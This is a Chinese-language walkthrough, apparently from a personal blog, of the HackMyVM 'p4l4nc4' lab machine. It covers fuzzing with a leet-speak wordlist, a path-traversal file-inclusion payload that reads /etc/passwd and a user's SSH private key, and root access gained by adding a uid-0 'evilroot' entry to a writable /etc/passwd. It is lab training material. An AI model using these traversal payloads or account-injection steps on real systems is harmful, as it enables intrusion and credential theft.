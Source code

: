 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_p4l4nc4","dg-path":"安全/靶机/hackmyvm_p4l4nc4.md","permalink":"/安全/靶机/hackmyvm_p4l4nc4/","dgPassFrontmatter":true}
---
```


# 主机发现

![Pasted image 20250127212614.png](/img/user/picture/Pasted%20image%2020250127212614.png)



# web渗透

目录扫描：
![Pasted image 20250127213912.png](/img/user/picture/Pasted%20image%2020250127213912.png)


主页就是apache的初始页面
![Pasted image 20250127213943.png](/img/user/picture/Pasted%20image%2020250127213943.png)


但这个`/robots.txt`页面很奇怪
![Pasted image 20250127214028.png](/img/user/picture/Pasted%20image%2020250127214028.png)
乍一看是乱码
但是将他简单转码之后：
```shell
curl -s http://192.168.124.9/robots.txt | iconv -f utf-8 -t latin1
```

```txt
A palanca-negra-gigante é uma subespécie de palanca-negra. De todas as subespécies, esta destaca-se pelo grande tamanho, sendo um dos ungulados africanos mais raros. Esta subespécie é endémica de Angola, apenas existindo em dois locais, o Parque Nacional de Cangandala e a Reserva Natural Integral de Luando. Em 2002, após a Guerra Civil Angolana, pouco se conhecia sobre a sobrevivência de múltiplas espécies em Angola e, de facto, receava-se que a Palanca Negra Gigante tivesse desaparecido. Em janeiro de 2004, um grupo do Centro de Estudos e Investigação Científica da Universidade Católica de Angola, liderado pelo Dr. Pedro vaz Pinto, obteve as primeiras evidências fotográficas do único rebanho que restava no Parque Nacional de Cangandala, ao sul de Malanje, confirmando-se assim a persistência da população após um duro período de guerra. Atualmente, a Palanca Negra Gigante é considerada como o símbolo nacional de Angola, sendo motivo de orgulho para o povo angolano. Como prova disso, a seleção de futebol angolana é denominada de palancas-negras e a companhia aérea angolana, TAAG, tem este antílope como símbolo. Palanca é também o nome de uma das subdivisões da cidade de Luanda, capital de Angola. Na mitologia africana, assim como outros antílopes, eles simbolizam vivacidade, velocidade, beleza e nitidez visual
```

是一段看不懂的语言
经翻译：
![Pasted image 20250127214148.png](/img/user/picture/Pasted%20image%2020250127214148.png)

~~说实话我到这里就卡住了，不知道之后该怎么办了~~
~~看了大佬的解答，才发现是通过这个文件去生成一个字典文件然后再去进行目录扫描。。。~~
~~很神奇，不知道这个思路是怎么来的，感觉就是纯纯出题人脑洞~~
~~就借助这个靶场练习一下一些基础工具的使用吧~~

## ffuf模糊测试

[[blog/安全/工具/ffuf\|ffuf]]

先简单扫一下：
```shell
ffuf -u http://192.168.124.9/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt    -e .php,.html,.txt,.zip,.js -c -v
```
其实这一步和目录扫描没什么区别
![Pasted image 20250128164234.png](/img/user/picture/Pasted%20image%2020250128164234.png)
也能扫出来`robots.txt`

现在有用信息就是这文件，所以考虑一下怎么利用这个文件
可以利用这个文件去生成一个字典
[[blog/安全/工具/cewl\|cewl]]
```shell
cewl http://192.168.124.9/robots.txt  -w wordlist1
```

现在还需要将字典文件做一个修改，那就是进行1337(leet)格式转化
https://en.wikipedia.org/wiki/Leet
其实这个提示就在靶场的名称上(p4l4nc4)
![Pasted image 20250128165128.png](/img/user/picture/Pasted%20image%2020250128165128.png)


```leet_converter.sh
#!/bin/bash

# leet_converter.sh - 将文本按Leet Speak规则转换
# 用法: ./leet_converter.sh <输入文件> <输出文件>

# 检查参数
if [ $# -ne 2 ]; then
    echo "错误：需要两个参数"
    echo "用法: $0 <输入文件> <输出文件>"
    exit 1
fi

input_file="$1"
output_file="$2"

# 检查输入文件是否存在
if [ ! -f "$input_file" ]; then
    echo "错误：输入文件 $input_file 不存在"
    exit 1
fi

# 定义替换规则（可自定义修改）
# 格式：'s/原字符/替换字符/gi' 
# g=全局替换，i=忽略大小写
leet_rules=(
    's/a/4/gi'      # A → 4
    's/e/3/gi'      # E → 3
    's/i/1/gi'      # I → 1
    's/o/0/gi'      # O → 0
    's/s/5/gi'      # S → 5
    's/t/7/gi'      # T → 7
    's/g/6/gi'      # G → 6
    's/z/2/gi'      # Z → 2
    's/b/8/gi'      # B → 8
)

# 执行转换并保存结果
sed -f <(
    for rule in "${leet_rules[@]}"; do
        echo "$rule"
    done
) "$input_file" > "$output_file"

echo "转换完成！结果已保存到 $output_file"
```

但是经过这个脚本转化后依旧扫不出来隐藏目录，我看了看大佬题解，发现字母`g`不需要变化。。。
![Pasted image 20250128170657.png](/img/user/picture/Pasted%20image%2020250128170657.png)
说实话这我就不是很懂了

所以我们冲着字典多样性的方向再去修改一下脚本
```python
#!/usr/bin/env python3
import itertools
import sys

# 定义Leet替换规则（可扩展为多个选项）
LEET_MAP = {
    'a': ['4'],
    'e': ['3'],
    'i': ['1'],
    'l': ['1'],
    'o': ['0'],
    's': ['5'],
    't': ['7'],
    'g': ['6'],
    'z': ['2'],
    'b': ['8'],
    # 可添加更多规则，例如'l': ['1', '7']
}

def generate_variants(word):
    # 为每个字符生成可能的选项
    char_options = []
    for c in word.lower():  # 统一处理为小写，如需保留大小写需调整
        if c in LEET_MAP:
            # 原始字符 + 所有替换选项
            options = [c] + LEET_MAP[c]
        else:
            options = [c]
        char_options.append(options)
    
    # 生成所有组合
    return [''.join(combo) for combo in itertools.product(*char_options)]

def process_file(input_path, output_path):
    seen = set()
    with open(input_path, 'r') as f_in, open(output_path, 'w') as f_out:
        for line in f_in:
            original = line.strip()
            if not original:
                continue
            
            # 生成所有可能的组合
            for variant in generate_variants(original):
                if variant not in seen:
                    seen.add(variant)
                    f_out.write(variant + '\n')

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"用法: {sys.argv[0]} <输入文件> <输出文件>")
        sys.exit(1)
    
    process_file(sys.argv[1], sys.argv[2])
    print(f"字典生成完成！结果保存在 {sys.argv[2]}")
```

![Pasted image 20250128171027.png](/img/user/picture/Pasted%20image%2020250128171027.png)
现在就扫出来了那个隐藏目录

![Pasted image 20250128171443.png](/img/user/picture/Pasted%20image%2020250128171443.png)
文件也扫出来了

```txt
http://192.168.124.9/n3gr4/m414nj3.php
```


再进行参数的模糊测试
```shell
ffuf -u http://192.168.124.9/n3gr4/m414nj3.php\?FUZZ\=FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -v -fc 500
```
![Pasted image 20250128171848.png](/img/user/picture/Pasted%20image%2020250128171848.png)
这个文件从参数`page`可以推测可能存在文件包含，试一下
```shell
curl http://192.168.124.9/n3gr4/m414nj3.php\?page\=../../../../../../../etc/passwd
```
![Pasted image 20250128172119.png](/img/user/picture/Pasted%20image%2020250128172119.png)

现在知道有一个用户
```txt
p4l4nc4
```

```shell
 curl http://192.168.124.9/n3gr4/m414nj3.php\?page\=../../../../../../../home/p4l4nc4/.ssh/id_rsa > rsa
```


![Pasted image 20250128185240.png](/img/user/picture/Pasted%20image%2020250128185240.png)

得到密码
```txt
friendster
```

# 提权

用脚本扫一下
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
![Pasted image 20250128193339.png](/img/user/picture/Pasted%20image%2020250128193339.png)
发现`/etc/passwd`文件可写

其实在他的历史里面就给了提示
```shell
cat /home/p4l4nc4/.bash_history
```

![Pasted image 20250128193542.png](/img/user/picture/Pasted%20image%2020250128193542.png)

那么我们可以增加一个特权用户
首先构造一个密码
```shell
> openssl passwd -1 -salt abc 1
$1$abc$mxBQevJT9zt/6fNQJ52EC1
```


```txt
evilroot:$1$abc$mxBQevJT9zt/6fNQJ52EC1:0:0::/root:/bin/bash
```

![Pasted image 20250128195311.png](/img/user/picture/Pasted%20image%2020250128195311.png)

其实经测试，只要把p4l4nc4用户suid和guid改掉也可以
![Pasted image 20250128195708.png](/img/user/picture/Pasted%20image%2020250128195708.png)

也可以将root密码删掉，也就是去掉那个`x`
![Pasted image 20250128195807.png](/img/user/picture/Pasted%20image%2020250128195807.png)











